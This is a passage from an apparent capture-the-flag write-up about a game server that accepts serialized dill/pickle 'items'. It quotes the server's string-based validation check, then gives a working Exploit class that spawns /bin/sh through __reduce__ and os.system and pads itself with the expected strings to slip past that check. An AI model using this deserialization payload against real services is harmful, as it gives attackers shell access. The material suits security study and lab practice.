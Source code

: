```python
    def validate_stream(self, data):
        '''Validates that the byte stream contains suitable dill serialized content.
        '''
        tests = {
            'rabbithole': False,
            'dill._dill': False,
            'on_get': False,
        }
        try:
            ops = pickletools.genops(data)
            for op, arg, pos in ops:
                if op.name == 'SHORT_BINUNICODE' and arg in tests:
                    tests[arg] = True
            for _, v in tests.items():
                if not v:
                    return False
            return True
        except:
            var = traceback.format_exc()
            pprint(var)
            return False
```

However, it is not difficult to ensure the presence of these strings. The serialized `Exploit` class
can be modified to the following.

```python
class Exploit:
    '''Spawns a /bin/bash shell when deserialized.

    Includes some required strings that are checked server-side to determine 'dill-ness'.
    '''

    def __reduce__(self):
        cmd = ('/bin/sh')
        return os.system, (cmd,), {'a': 'dill._dill', 'b': 'rabbithole', 'c': 'on_get'}
```

Alternatively, an actual `Item` class, including an arbitrarily defined `on_get` function, could be
serialized using the `generate_items.py` helpers so that the arbitrary code execution happens when
the `on_get` hook is run. The bypass above is the simpler approach.

#### Crafting an Exploit

To validate the observations so far, let's travel to `/opt/wonderland/logs` and attempt to blow some
smoke.

```shell
[vast-emptiness] $ teleport ../../logs
You have moved to a new location: 'logs'.

You look around and see:
Darkness fills your senses. Nothing can be discerned from your environment.
[logs] $ blowsmoke amon.item HELLOWORLD
Smoke bellows from the lips of amon.item to form the words, "HELLOWORLD."
Curling and curling...
The words float up high into the air and eventually disappate.
[logs] $ look
You look around and see:
Darkness fills your senses. Nothing can be discerned from your environment.
There are the following things here:
  * logs-amon (item)

[logs] $
```